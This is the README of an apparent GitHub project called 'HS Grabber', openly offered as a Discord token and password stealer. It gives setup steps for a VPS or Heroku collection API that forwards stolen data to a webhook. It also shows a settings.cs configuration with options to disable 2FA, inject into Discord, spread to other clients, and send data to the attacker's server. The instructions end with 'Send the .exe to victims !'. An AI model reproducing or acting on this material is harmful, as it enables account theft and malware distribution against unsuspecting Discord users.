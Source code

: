 # HS Grabber
An powerful discord token grabber / discord token stealer stole discord password, info, etc, same when you change password. [Need a screenshot ?](https://github.com/Stanley-GF/HS-Grabber#Some-screenshot-of-the-grabber)

- [ ] 10 Star = video tutorial
- [ ] 15 Star = auto builder


# :warning: Personal Purpose, we are not responsable of your acts  :warning:

# How to use

## #1 : API Hosting

### Method 1 : (require a vps)

Open port 80

Install Apache2 : 
```
$ sudo apt-get update
$ sudo apt-get install apache2
```

Test server : 

```
$ curl urserverurl
```

Configure Firewall :
```
$ sudo ufw allow 'Apache'
```

Verify the change :
```
$ sudo ufw status
```

Install API :
```
$ git clone https://github.com/Stanley-GF/api.git
```

Configure port & ip in the main index.js
```
$ cd api
$ nano index.js
```

Configure webhook url : 
```
$ cd api/endpoints
$ nano index.js
```

Your API URL gonna be : 
https://your-vps-ip/api/v1/send (replace your-vps-ip by ur real vps ip, obviously)

### Method 2 : Heroku (the best for beginner)

* Start https://heroku.com
* Signup an account
* Create an app
* Fork https://github.com/Stanley-GF/api on your github account
* Go in endpoints -> index.js -> edit and replace the webhook url by your webhook url
* Go in https://dashboard.heroku.com/apps/ , click on your app, go in "deploy" category
* In deployment method, select Github, login in your github account by authorize OAuth thing -> in App Connected, type "api" and select your project
* Enable "Automatic Deploy"
* press on Deploy Branch
* your server url gonna be : https://your-app-name.herokuapp.com/api/v1/send (replace your-app-name by ur real app name, obviously)

## #2 : Your .exe

* Download src of this project
* Open project
* Go in settings.cs and configure option : 

```cs

public static bool disableMfa = false; // disable 2FA 

public static bool restartDiscord = true; // restart discord after injection

public static bool spread = true; // ALWAYS TRUE : (for infect client)

private static string serverurl = "https://your-app-name.herokuapp.com/api/v1/send"; // replace "your-app-name.herokuapp.com/api/v1/send" by your api url

public static string Url = "https://cors-anywhere2.herokuapp.com/" + serverurl; // don't tuch.
```

* Compile the project
* Go in `\HS-Grabber\HS-Grabber\bin\Debug`
* Send the .exe to victims ! 

# Some screenshot of the grabber

![yay](https://cdn.discordapp.com/attachments/797933407476777012/798145821203628052/unknown.png)

# Coded with ❤️ By

| Name           | Helped for |
|----------------|---------------|
| [HideakiAtsuyo](https://github.com/HideakiAtsuyo)  | API |
| [Stan](https://github.com/Stanley-GF)          | Code & a bit of the API | 
| [Igor](https://github.com/IgorBataljon)           |  API  |
